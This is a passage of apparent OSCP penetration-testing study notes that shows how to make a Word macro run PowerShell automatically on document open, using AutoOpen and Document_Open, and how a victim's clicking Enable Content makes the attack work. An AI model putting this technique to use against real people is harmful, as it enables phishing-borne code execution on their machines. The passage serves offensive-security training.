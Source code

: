```
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

> Listing 3 - Macro opening powershell.exe

Since Office macros are not executed automatically, we must use the predefined *AutoOpen* macro and *Document\_Open* event. These procedures can call our custom procedure and run our code when a Word document is opened. They differ slightly, depending on how Microsoft Word and the document were opened. Both cover special cases which the other one doesn't and therefore we use both.

Our updated VBA code is shown below:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

> Listing 4 - Macro automatically executing powershell.exe after opening the Document

Next, we'll click on the *Save* icon in the *Microsoft Visual Basic for Applications* window and close the document. After we re-open it, we are presented with a security warning indicating that macros have been disabled. To run our macro, we'll click on *Enable Content*.

![[OffSec/OSCP/z. images/38a7829ff106d97d31400ccd5c0c407b_MD5.jpg]]

Figure 23: Microsoft Word Macro Security Warning

After we click on *Enable Content* a PowerShell window appears.

![[OffSec/OSCP/z. images/f55e8ca07ff3ff6971184b33b7a5b600_MD5.jpg]]

Figure 24: Enabled Macro started a PowerShell window

As Figure 24 shows, the PowerShell window was started through our macro. Very nice!

In a real-world assessment, our victim must click on *Enable Content* to run our macros, otherwise our attack will fail. In enterprise environments, we can also face a situation where macros are disabled for Office documents in general. Fortunately for us, macros are commonly used (and allowed) in most enterprises.
